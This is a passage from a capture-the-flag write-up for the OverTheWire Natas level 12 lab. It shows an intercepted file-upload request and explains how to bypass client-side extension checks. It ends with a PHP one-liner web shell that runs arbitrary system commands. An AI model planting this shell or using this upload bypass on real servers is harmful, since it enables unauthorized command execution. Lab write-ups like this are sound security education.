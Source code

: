 If we intercept the upload form in Burp we get something that looks like the following:

```
POST /index.php HTTP/1.1
Host: natas12.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas12.natas.labs.overthewire.org/index.php
Authorization: Basic bmF0YXMxMjpFRFhwMHBTMjZ3TEtIWnkxckRCUFVaazBSS2ZMR0lSMw==
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------507701271412881433998838798
Content-Length: 480

-----------------------------507701271412881433998838798
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------507701271412881433998838798
Content-Disposition: form-data; name="filename"

p6qwm188bx.txt
-----------------------------507701271412881433998838798
Content-Disposition: form-data; name="uploadedfile"; filename="testfile.txt"
Content-Type: text

this is a test

-----------------------------507701271412881433998838798--
```

The bit we're interested in is the bottom part (although in a real world scenario we could cripple this server by uploading crap loads of data just by manipulating the "MAX_FILE_SIZE", but that isn't our goal here) where we're setting the content of our file.

So, what would happen if we were to change our "jpeg" file to something else?

Well, the first thing that happens is that the application tries to change the file extension of whatever we upload to ".jpeg", which causes errors when we try and view the file. Especially if the ".jpeg" we just uploaded is actually just an ASCII/text file with a fake extension. 

But, the checks are all happening on the client side, not the server side, so we can manipulate out input and get it to upload as whatever we want (preferably something we can actually read)

For my test upload (the one just above that I used as an example) I just used a plain text file with the content of `this is a test`, corrected the file extension at the upload using BurpSuite, then checked that it rendered properly (i.e. the file is actually being executed by the server), which it did, I managed to get my original file reflected back at me.

So, what would happen if we gave it something more interesting, like a PHP file?

`<?php echo system($_GET['system']); ?>`

This awesome little one-liner takes whatever we pass in under the `system` parameter, and executes it as whatever use it is currently logged in as.
